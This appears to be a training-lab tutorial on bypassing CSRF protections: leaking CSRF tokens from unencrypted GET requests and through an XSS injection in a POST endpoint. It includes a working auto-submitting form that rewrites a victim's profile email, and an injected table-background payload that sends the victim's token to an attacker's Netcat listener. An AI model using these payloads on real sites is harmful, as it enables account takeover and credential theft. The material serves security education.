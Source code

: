 ## GET-based
Similar to how we can extract session cookies from applications that do not utilize SSL encryption, we can do the same regarding CSRF tokens included in unencrypted requests.

To retrieve CSRF tokens in an HTTP GET request, use a proxy tool such as Burp Suite to intercept the request. Notice that the CSRF token is included in the request as a query parameter.

With the CSRF token now in our hand, all we have to do is create and serve the below HTML page to deface or takeover someone else's account:
```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

We will then serve this malicious web page on a server. To simulate a victim accessing the malicious URL, we will open a new tab and visit our malicious page. Notice that Julie's profile details will change to the ones specified in our malicious HTML page.
## POST-based
The vast majority of applications nowadays perform actions through POST requests. Subsequently, CSRF tokens will reside in POST data. In the following example, we will attack an application and find a way to leak the CSRF token to allow us to mount a CSRF attack.

Using Burp Suite, intercept the POST request `/app/delete/our-email@htb.net`, notice that if we changed `our-email@htb.net` to `<h1>h1<u>underline<%2fu><%2fh1>` the page renders it, this shows that the web page is vulnerable to XSS attacks, with this we can chain a CSRF attack.

Inspecting the source code, we can see that the injection happens before a single quote. We can now abuse this to leak the CSRF token:
```html
...[SNIP]...Email: <div style="color: gainsboro;"><h1>h1<u>underline</u></h1></div><input name="csrf" type="hidden" value="51a2973f01c61ec8f21e093c2d84a030d7f551d2" meta-dev='testdata' meta-dev-note="secureThisToken">
         ^ this one
```

We will now start a Netcat listener and use the following which allows us to leak the CSRF token.
```txt
/app/delete/<table%20background='%2f%2fOUR_IP:OUR_PORT%2f
```

To simulate a victim accessing the malicious URL, we will open a new tab and visit our malicious page. Looking at our Netcat listener, we notice that a connection being made to our machine that leaks the CSRF token.